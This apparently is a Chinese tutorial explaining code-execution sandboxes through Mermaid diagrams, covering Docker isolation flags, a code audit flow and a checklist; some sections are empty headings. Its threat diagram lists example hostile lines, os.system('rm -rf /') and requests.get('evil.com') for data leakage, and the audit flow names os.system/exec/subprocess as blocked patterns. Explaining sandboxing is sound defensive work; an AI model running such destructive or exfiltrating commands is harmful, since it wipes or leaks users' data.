



# 代码执行沙箱架构图解

> 用图解理解 4 级隔离架构、Docker 沙箱流程和安全审计。

---

## 一、为什么需要沙箱

```mermaid
graph TB
    subgraph 危险 &#123;"不安全执行"&#125;
        D1["os.system('rm -rf /')"] --> R1["❌ 删文件"]
        D2["requests.get('evil.com')"] --> R2["❌ 数据泄露"]
        D3["while True: pass"] --> R3["❌ 资源耗尽"]
    end

    style 危险 fill:#FFCDD2
```

---

## 二、4级隔离架构



---

## 三、进程级沙箱



---

## 四、Docker容器沙箱

```mermaid
graph TB
    subgraph 容器 &#123;"Docker容器沙箱"&#125;
        CODE["代码文件<br/>只读挂载"] --> RUN["容器执行"]
        RUN --> NET["--network=none<br/>禁网"]
        RUN --> MEM["--memory=256m<br/>内存限制"]
        RUN --> CPU["--cpus=1<br/>CPU限制"]
        RUN --> USER["非root用户"]
        RUN --> TMPFS["tmpfs /tmp"]
        RUN --> TIMEOUT["超时杀容器"]
        RUN --> OUT["输出目录<br/>读写挂载"]
    end

    style NET fill:#FFCDD2
    style OUT fill:#C8E6C9
```

---

## 五、安全审计流程

```mermaid
graph LR
    CODE["用户代码"] --> AUDIT["代码审计器"]
    AUDIT --> HIGH&#123;"高危模式？"&#125;
    HIGH -->|os.system/exec/subprocess| BLOCK["❌ 拦截"]
    HIGH -->|无| MEDIUM&#123;"中危模式？"&#125;
    MEDIUM -->|import os/sys| WARN["⚠️ 警告但允许"]
    MEDIUM -->|无| SAFE["✅ 安全"]
    BLOCK --> NOEXEC["不执行"]
    WARN --> SANDBOX["沙箱执行"]
    SAFE --> SANDBOX

    style BLOCK fill:#FFCDD2
    style WARN fill:#FFF9C4
    style SAFE fill:#C8E6C9
```

---

## 六、选型决策



---

## 七、检查清单

| 检查项 | 状态 |
|--------|------|
| 实现了进程沙箱 | ☐ |
| 实现了Docker沙箱 | ☐ |
| 有代码审计 | ☐ |
| 禁网+资源限制 | ☐ |
| 有超时机制 | ☐ |
